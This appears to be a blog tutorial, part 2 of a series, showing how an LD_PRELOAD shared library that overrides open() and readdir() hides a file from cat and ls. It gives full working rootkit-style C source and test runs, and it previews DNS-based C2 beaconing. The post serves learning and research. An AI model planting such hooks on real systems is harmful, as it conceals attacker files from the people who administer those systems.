 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 2)"
date: "2022-10-04"
tags:
  - C
  - Dynamic Linker
  - LD_PRELOAD
toc: true
math: true
bold: true
nomenu: false
---
```


## Journey Post
This post is a something that I call "journey post", this follows my process of researching and implementing the solution for the problem (or the challenge). I will wrap/pre-fix parts of the post with html-like `<journey>` so that you can skip it if you are in a hurry.

---

## Overview

In the last post I've described how I hid a file from all the sys calls that are using `readdir`. In this post I will try to hide it from the `cat` command. Let's first examine/reverse engineer how the `cat` command works internally.

Naturally I would start with a simple [strace](https://man7.org/linux/man-pages/man1/strace.1.html) which will trace the system calls and signals that the command uses. 

```console
$ which cat
/usr/bin/cat
$ strace /usr/bin/cat syl.lys
execve("/usr/bin/cat", ["/usr/bin/cat", "syl.lys"], 0x7ffca9c17508 /* 68 vars */) = 0
...
access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory) // WINK WINK, not yet
...
openat(AT_FDCWD, "syl.lys", O_RDONLY) = 3
```

The most interesting sys call in the output is `openat` so lets see the source code of [openat.c](https://github.com/coreutils/gnulib/blob/master/lib/openat.c#L182). Here we can see the `char const *file` that variable is what holds our filename (look at the `strace` output). After that, I followed our steps in the last [post](dynamic-linker-hijacking-experiments) by implementing a function with the same signature and wrapping the original one. 

`<journey>`


After a few tries I was quick to realize that there is some issue. The wrapper that I've implemented didn't work, or at least didn't work all the time. I've tested it out with a simple program that would just call it and in there it worked, I didn't quite get why it does what it does but I found the following discussions:

- [intercepting the openat() system call for GNU tar](https://stackoverflow.com/questions/9161116/intercepting-the-openat-system-call-for-gnu-tar)
- [How to find out what functions to intercept with LD_PRELOAD?](https://stackoverflow.com/questions/49314057/how-to-find-out-what-functions-to-intercept-with-ld-preload)

As it turns out (my best guess) the sys call that I am trying to override `openat` is probably not the one that the `cat` uses. I decided to look at the source code for [cat.c][https://github.com/coreutils/coreutils/blob/master/src/cat.c] and search for everything that has `*open*` in it.

I found on [line 686](https://github.com/coreutils/coreutils/blob/master/src/cat.c#L686) a call to the `open`. An important note here is that this `open` call here is not the sys call but the call in the std lib which will call the related system call for us. So I've decided to change my approach and override the `open` function instead.

`</journey>`

How does the [open function](https://man7.org/linux/man-pages/man2/open.2.html) work? I wouldn't try to explain something that I am hardly good at so it is best for you to read the man pages for that one.

Let's start by copying the signature of the [open function](https://github.com/coreutils/gnulib/blob/master/lib/open.c#L59) and wrap it.

```c
static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

In this code block I've wrapped the original `open` function with our implementation of the `open` function. What is left now is to add our "malicious" part to it.

```c
if (strcmp(filename, MALICIOUS_FILE) == 0) 
{
    errno = ENOENT; // Setting up the error to be ERROR NO ENTRY(ENOENT)
    return -1; // Returning -1 (failure)
}
```

And lastly all together

[intercept_open.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/intercept_open.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{   
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

Let's see if its working...

```console
$ ls
intercept_open.so  syl.lys
$ LD_PRELOAD=./intercept_open.so cat syl.lys
cat: syl.lys: No such file or directory
```

As you can see the `cat` command returns `No such file or directory` which is exactly what we are aiming for.

## Combining it with our `readdir`

We created a malicious `open` function that wraps the original one from the standard lib, lets now combine it with the `readdir` from the previous post into a single shared object.

[malicious.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/malicious.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>
#include <dirent.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;
struct dirent *(*original_readdir)(DIR *dirp) = NULL;

int open (const char *filename, int flags, ...)
{
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}

struct dirent *readdir(DIR *dirp) 
{
    struct dirent *ret;
    original_readdir = dlsym(RTLD_NEXT, "readdir");

    while((ret = original_readdir(dirp))) {
        if(strstr(ret->d_name, MALICIOUS_FILE) == 0)
            break;
    }
    return ret;
}
```

Let's test it out, supposedly we shouldn't get entries from `ls` and `cat`.

```console
$ touch syl.lys
$ ls
intercept_open.c  malicious.c  malicious.so  syl.lys
$ export LD_PRELOAD=./malicious.so
$ ls
intercept_open.c  malicious.c  malicious.so  README.md
$ cat syl.lys
cat: syl.lys: No such file or directory
```

# End
With that I am concluding this post, again if you reached here thank you so much it means a lot! In the next part I will get deeper and make our malicious file to be running and beaconing a malicious C2 server, we will look through some C2 communication examples using the DNS protocol so that we can remain under the radar(or the firewall ^^).

[Full Source Code](https://github.com/syrull/evasive_techniques/tree/main/Part_2_open)

# Resources

This post wouldn't be possible without:

- https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-5.html
- https://linux.die.net/man/2/openat
- And some kind StackOverflow users! 